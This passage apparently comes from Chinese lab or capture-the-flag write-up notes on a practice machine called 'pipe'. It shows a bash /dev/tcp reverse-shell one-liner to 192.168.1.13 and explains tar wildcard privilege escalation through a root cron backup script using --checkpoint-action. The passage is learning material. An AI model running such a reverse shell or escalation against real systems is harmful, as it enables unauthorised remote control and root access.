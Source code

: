 ![](/Users/ebounce/learning/刷靶机笔记/pipe/11.png)

可惜是非root权限:

![](/Users/ebounce/learning/刷靶机笔记/pipe/12.png)

## 系统层

先反弹一下shell，再看看下一步操作吧:

![](/Users/ebounce/learning/刷靶机笔记/pipe/13.png)

`bash -c 'exec bash -i &>/dev/tcp/192.168.1.13/19999 <&1'`

![](/Users/ebounce/learning/刷靶机笔记/pipe/14.png)

这里通过查看定时任务`/etc/crontab`发现存在root用户的定时任务，分别查看这两个sh的内容

`cat /etc/crontab`

![](/Users/ebounce/learning/刷靶机笔记/pipe/15.png)

`create_backup.sh`

![](/Users/ebounce/learning/刷靶机笔记/pipe/16.png)

很可惜，该sh没有权限

`compress.sh`

```
#!/bin/sh

rm -f /home/rene/backup/backup.tar.gz
cd /home/rene/backup
tar cfz /home/rene/backup/backup.tar.gz *
chown rene:rene /home/rene/backup/backup.tar.gz
rm -f /home/rene/backup/*.BAK
```

这里是使用root用户运行的sh，同时使用tar命令和通配符，在这种情况下，我们能够使用tar命令进行提权

### tar 提权原理

原理是因为通配符，会匹配目录下的所有文件，这里是`/home/rene/backup`，而tar存在两个参数:

PS：如果直接tar是给了sudo权限，运行普通用户调用的话，其实直接执行下面的命令就可以了，下面仅讨论有通配符的情况

- --checkpoint=x 这里x表达写入x次，意思为每写入x次就进行一次检查点的操作

- --checkpoint-action=[command]=[param] 此处定义检查点的操作是什么，语法格式符合shell格式

举例子:

```shell
--checkpoint-action=exec=“echo 123”
---> exec "echo 123"
---> shell上会打印123 
```
